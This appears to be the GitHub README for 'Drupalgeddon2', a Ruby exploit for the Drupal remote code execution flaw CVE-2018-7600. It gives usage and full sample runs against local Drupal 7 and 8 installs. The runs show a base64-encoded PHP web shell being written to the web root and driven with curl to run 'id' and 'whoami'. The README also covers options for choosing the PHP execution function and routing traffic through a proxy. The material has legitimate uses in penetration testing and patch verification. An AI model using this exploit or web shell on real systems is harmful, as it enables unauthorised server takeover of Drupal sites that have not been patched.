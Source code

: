# CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `exec` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- With or without a writeable web root or sub-directories

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_

Notes:
- For a customizable exploit, read "drupalgeddon2-not-write-shell.rb" section.
- Ey! Before opening an issue, please, read the throubleshooting section at the end of this readme. Thanks!

- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo MEWQTESC
[+] Result : MEWQTESC<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt (200)
[+] Drupal!: 7.55
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FLUBCTEZ
[+] Result : FLUBCTEZ
[{"command":"settings","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### File-Less Method

If you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = true
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -
#### Experimental but usable: drupalgeddon2-not-write-shell.rb

This exploit is inteded to be more customizable. It allows you to specify some more parameters as the PHP method to use (not only system or passthru) and the way to reach user/password form.

Usage examples:

```
$ ruby drupalgeddon2-not-write-shell.rb https://example.com 7 id passthru 0

1st parameter: Target URL
2nd parameter: Drupal version
3rd parameter: Command
4th parameter: PHP method to use (passthru, exec, system, assert...)
5th parameter: 0 for "/?q=user/password", 1 for "/user/password"

```

- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.
- If you cannot write a shell using drupalgeddon2.rb, use do-not-use.rb, this script doesn't write a shell to disk, and allows you to use whatever php method you want.


- - -


## Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- cURL commands/sample/PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
